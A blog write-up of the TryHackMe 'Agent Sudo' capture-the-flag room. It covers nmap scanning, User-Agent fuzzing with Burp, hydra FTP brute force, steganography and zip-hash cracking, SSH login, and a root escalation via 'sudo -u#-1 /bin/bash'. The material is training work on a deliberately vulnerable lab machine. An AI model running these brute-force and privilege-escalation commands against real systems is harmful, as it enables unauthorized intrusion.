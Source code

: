 ```yaml
---
layout: post
title: Agent sudo writeup
subtitle: You found a secret server located under the deep sea.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, enumeration]
---
```


Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!


## Here is a machine information

| Title | Agent Sudo | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 400 |
| Maker | DesKel |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## NMAP
We have an IP as usual, and we can start with the basic nmap scan

```bash
nmap -sC -sV -A machine-ip 
```
<em>

-A : Os detection, version detection, traceroute

-sS : TCP syn scan ( for faster scan, needs root privilege )

-o : For storing output in file
</em>

After finishing scan with nmap, we got the result as tcp (80) is open and more interesting directory was found is *.git*

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 03:01 EDT
Nmap scan report for 10.10.100.203
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.90 seconds
```

## Enumeration

Accessing to port 80 and got it:

![web80](/leiz95/assets/img/agent-sudo/web.png)

Now we need to change user agent. there is few ways to do as using agent switch extension or burp suite to edit request.
I am using burp to do it. I change User agent to agent R and got another hint:

![web80](/leiz95/assets/img/agent-sudo/web1.png)

That we are one of in 25 employees, So we can use burp intruder to manipulate user agent with 26 character.

After running burp intruder with 26 characters from A-Z payload, we was redirect to */agent_C_attention.php* with agent C.

In */agent_C_attention.php*

![web80](/leiz95/assets/img/agent-sudo/web2.png)

## Hash cracking and brute-force

Now we have the user is **chris**. As we saw the ftp open in our nmap. We try brute force password for **chris** via hydra:

```
hydra -l chris -P password-list 10.10.10.203 ftp
```
<em>

-l : username 

-P : password list is used to brute force

-o : For storing output in file
</em>

I am using rockyou.txt as password-list. Waiting for brute force:

![web80](/leiz95/assets/img/agent-sudo/web3.png)

we got password for **chris** user.

Then we access to mnachine via ftp of chris user. 

list all files that chris can view:

![web80](/leiz95/assets/img/agent-sudo/web4.png)

In order to get all files, we can use: 

``` mget . ```

cat To_AgentJ.txt:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```
Firstly, i can try steghide to check the jpg image. let see what is hide inside image.

``` steghide info cute-alien.jpg```

Result: 

![web80](/leiz95/assets/img/agent-sudo/web5.png)

This require password phrase as saw above.
Let's check cutie.png with binwalk. We got some hidden zip file inside file cuite.png

![web80](/leiz95/assets/img/agent-sudo/web6.png)

Extract the cutie.pnd and got 8702.zip file. But it was lockded by password. We need to crack password. After googling how to crack password for zip file.

I get amount of way. One way that i will use and also from the hint. There is two steps to crack it.

``` zip2john 8702.zip > zip.hash```

``` john zip.hash ```

Then archive the password:

![web80](/leiz95/assets/img/agent-sudo/web7.png)

Open zip file and enter password. We have message: 

![web80](/leiz95/assets/img/agent-sudo/web8.png)

Send to who we just got the encode person. Don't worry, we have the https://gchq.github.io/CyberChef/ to check or reverse it. After time to find what is type of encoded. I found this is base64 encoded. 

Now we have password for steghide in a few steps ago. Let's extract jpg image.

``` steghide --extract -sf cute-alien.jpg```

Inside message.txt:

![web80](/leiz95/assets/img/agent-sudo/web9.png)

## Capture the user flag

Now we have the credentials to access the attack machine. Let's using ssh to access:

``` ssh user@machine-ip ```

Using cat to get flag.

``` cat user_flag.txt ```


And the other is an image. We need to find out where is the image from. You can use the command below to download the image from the machine 

``` scp user@machine-ip:filename /localdir/ ```

Downloaded successfully, 

## Privilege escalation

In order to getting root. First thing, i check sudoer file by running command:

``` sudo -l ```

![web80](/leiz95/assets/img/agent-sudo/web10.png)


It looks like our user is not allowed to run /bin/bash as root since we have a !root. However, this looks weird as the first all means our user can run /bin/bash as any user. This is interesting, perhaps we can find a way to exploit this. 

Google about it: 

![web80](/leiz95/assets/img/agent-sudo/web11.png)

We got the cve and also exploitdb url.

Read throung the exploitDB and Run cmd to get root:

``` sudo -u#-1 /bin/bash ```

The flag was sitting inside root directory.

![web80](/leiz95/assets/img/agent-sudo/web12.png)

Finally we got all plags. Happy hacking!!!
